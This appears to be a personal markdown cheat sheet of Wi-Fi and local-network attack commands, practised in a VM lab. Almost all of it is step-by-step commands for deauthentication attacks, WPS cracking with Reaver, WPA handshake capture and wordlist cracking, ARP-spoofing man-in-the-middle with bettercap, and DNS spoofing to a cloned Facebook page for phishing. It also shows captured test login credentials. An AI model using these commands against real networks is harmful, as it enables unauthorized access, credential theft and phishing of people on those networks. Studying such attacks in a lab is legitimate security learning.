




**Network**



**Change MAC Address**

Show network details on Linux
```sh
ifconfig
```

Change MAC address in memory (resets after the computer restarts)
```sh
sudo ifconfig wlan0 down
```

```sh
ifconfig wlan0 hw ether 00:11:22:33:44:55
```
- hw - hardware
- ether - mac address 

```sh
ifconfig wlan0 up
```

---

**Change WIFI to Monitor Mode**

```sh
sudo ifconfig wlan0 down
```

```sh 
sudo airmon-ng check kill
```

```sh
sudo iwconfig wlan0 mode monitor
```

restart the interface
```sh
sudo ifconfig wlan0 up
```

check it was successful
```sh
iwconfig
```
- Should display: `Mode:Monitor`

---

**Capture Packets from WIFI**

Start capturing packets
```sh
sudo airodump-ng wlan0
```
- CTL+C to stop

Sniff specific network using details from the above command
```sh
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 11 --write <name of the file to save> wlan0
```
- This will show all of the devices connected to the specific target network
- Creates new files that we have captured in the pwd

View data in wireshark
```sh
wireshark <name of the file>-01.cap
```
- The files will be encrypted 
- Can show you what the devices are, for example the source might be Samsung

---

**De-Authentication Attack**

```sh
sudo aireplay-ng --deauth 1000000 -a 00:11:22:33:44:55 -c 00:11:22:33:44:A1 wlan0
```
- deauth - how long you want to disconnect the user
- -a - target router
- -c - mac address of the client (under the station label)
- **BSSID** is the MAC address of the access point

Now the attacker can try to take the handshake or inject something

---

**Cracking Wireless Networks WPA and WPA2** 

Check if it's in monitor mode
```sh
iwconfig
```

Start monitor mode
```sh
sudo airmon-ng start wlan0
```

Kill processes 
```sh
sudo airmon-ng check kill
```

List networks in the area
```sh
sudo airodump-ng wlan0
```
- Lists everything in the area it can reach

Capture data from specific network
```sh
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 11 --write test wlan0
```

Fake authentication
```sh
sudo airplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h <my-mac-adress> wlan0
```
- fakeauth - how long till it tries to re-authenticate (if you use 0 it will try every second)
- -a - mac address of the access point **BSSID**
- -h - my mac address 

**Important** - You should put your mac address into a notepad because you can't use ifconfig while in monitor mode

If there is an error it will give you another mac address to use, just copy and paste it into the previous command

The mac address should now show up on the specific target command, which is writing to test, that should still be running

---

**Reaver**

Reaver only works on routers and wifi with WPS enabled. It can connect without a password with an 8 digit pin

How do you know if WPS is enabled?
```sh
sudo wash --interface wlan0
```

Other uses for Reaver

Bring up the networks again
```sh
sudo airodump-ng wlan0
```

De-Authenticate

```sh
sudo aireplay-ng --deauth 1000000 -a 00:11:22:33:44:55 -c 00:11:22:33:44:A1 wlan0
```

Crack the WPS with Reaver
```sh
sudo reaver --bssid <target-bssid> --channel <target-channel> --interface wlan0 -vvv
```
- vvv - verbose

---

**Capture the Handshake**

Start Airodump
```sh
sudo airodump-ng --bssid <target-bssid> --channel 1 --write handshake wlan0
```
- Now you would have to wait until someone authenticates to the router or access point. Alternatively you can de-authenticate a user to speed up this proccess

De-Authenticate
```sh
sudo aireplay-ng --deauth 4 -a <target-bssid> -c <client-mac> wlan0
```
- target mac - located under the heading station (one column right of the bssid)



Try increasing the --deauth time to 400 to try and capture the handshake which should show up in airodump command. This ill show up next to the top of the running commands first line

You can use the handshake and a wordlist to start cracking the password

---

**Cracking the Handshake**

Using crunch to generate a wordlist 
```sh
crunch [min] [max] [characters] -t [pattern] -o filename
```

```sh
crunch 6 8 123!@ab -o crunch-wordlist-test.txt
```
- Useful if you know something about the password, for example that the pass is all numbers

How to use -t pattern
```sh
crunch 6 6 1234567890 -t 1@@@@6 -o iknow-the-first-and-last-number-in-your-pass.txt 
```
- I know: the first and last number in the password, the password only uses numbers, and that it's only 6 digits long

The handshake is stored in handshake.cap
```sh
aircrack-ng handshake.cap -w wordlist.txt
```
- Cracked password is under `KEY FOUND! [ foundpassword ]`

Now you can use the password on the wifi network

First you have to stop monitor mode
```sh
sudo airmon-ng stop wlan0
```
- Make sure to remove any empty spaces that you might have accidentally copied

---

**Discover all Devices Connected to the Network**

If you're using a VM, make sure that the devices are using the Nat Network

Use ifconfig to find the IPV4 and MAC address
```sh
sudo netdiscover -i eth0 -r 10.0.2.0/24
```
- i - interface
- r - range 

Using nmap or zenmap to discover devices
```sh
sudo nmap -sn 10.0.2.0/24
```
- sn - ping scan

Install .deb file
```sh
sudo dpkg -i <name-of-file>.deb
```

Nmap fast scan network
```sh
sudo nmap -T4 -F 10.0.2.0/24
```

---

**Man in the Middle Attack**



Also called ARP Spoofing. This is where we try to position our hacker computer so that the victim first connects to us before reaching the access point



Using arpspoof to use a man in the middle attack
```sh
arpspoof -i eth0 -t <target-ip> <access-point-ip> 
```
- We can find the target ip using nmap or netdiscover to scan the network
- Now we add in the access point or router ip

We need to do this twice but reversed so we can communicate with both the access point and the target computer
```sh
arpspoof -i eth0 -t <access-point-ip> <target-ip>
```

If your using a VM you can open the target computer and use `arp -a` before and after to see what effect it has

What will happen is that the router or access point's mac address will change to the kali mac address. If you could access the router and do the same thing it would show the target's mac address also as the kali mac address showing that the man in the middle attack is completed 

When doing this attack you need to enable port forwarding:
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```
- echo 1 - enable port forwarding
- If you don't have any errors then it's setup correctly

**Capture the Packets  While Exploiting a Man in the Middle Attack**

Tools: bettercap

Update kali
```sh
sudo apt update 
```

Install bettercap
```sh
sudp apt install bettercap
```

Activate bettercap
```sh
sudo bettercap -iface eth0 
```
- While in bettercap you can type help for a list of commands

Start sniffing the network
```sh
net.sniff on
```

Show connected devices
```sh
net.show
```

While it's sniffing the network, if you use the target VM's browser and login to a website bettercap will capture the login details and other information

Using just bettercap to perform the initial setup for the man in the middle attack without the need for ARP spoofing

Start bettercap
```sh
sudo bettercap -iface eth0
```

Scan network to connect targets
```sh
net.probe on
```

Show connections
```sh
net.show
```

Start full duplex to capture both the router and the victim PC
```sh
set arp.spoof.fullduplex true
```
- I didn't need this but keep it in mind if something is not working 

Start an ARP spoof attack from bettercap using the information gathered
```sh
set arp.spoof.target <target-ip>
```
- You can see the target ip with the `net.show` command

Enable spoof
```sh
arp.spoof on
```
- Now we can test this by using the browser again on the target VM
- Shows various information like IP, MAC, URL visited, and the target computer name

Start sniffing
```sh
net.sniff on
```

Results
```python
10.0.3.0/24 > 10.0.3.4  » [08:24:53] [net.sniff.http.request] http win11.local. POST testphp.vulnweb.com/userinfo.php

POST /userinfo.php HTTP/1.1
Host: testphp.vulnweb.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0                                                                                         
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7                                                                                   
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Referer: http://testphp.vulnweb.com/login.php
Accept-Encoding: gzip, deflate
Origin: http://testphp.vulnweb.com

uname=hiimtestingarpspoofing&pass=hiimtestingarpspoofing
```

**Redirect from web-page to another. Used in phising**

Access the kali default server page 
```sh
/var/www/html 
```
 
 Start kali server  
```sh
service apache2 start
```
- Use ifconfig to find your own IP which is where the server is located
- You need to copy the, for example facebook, webpage HTML saved as index.html (you can use tools that can help you do this)

Set DNS spoofing 
```sh
set dns.spoof.domains facebookk.com
```

Start DNS spoof
```sh
dns.spoof on
```
- Now we can try it using our windows VM. If it doesn't work try clearing browsing history

---

**WireShark**

- Source - Our IP (not always this way around. the message might come from another IP to our machine in which case it would be revered)
- Destination - IP of what we are connecting to
- Protocol - Method of connection TCP,UDP, ARP etc 
- You can double click on specific packets for a clearer view 
- With bettercap running, as a man-in-the-middle, you can capture passwords and other information
- Use the WireShark search bar to look for specific protocols like HTTP. Now you could look for POST to find any login details under `HTML Form URL Encoded`
- WireShark also has a find feature to help you find specific strings in the search results. So in this case you might search for username. Press find a few times if the desired result does not show the first time

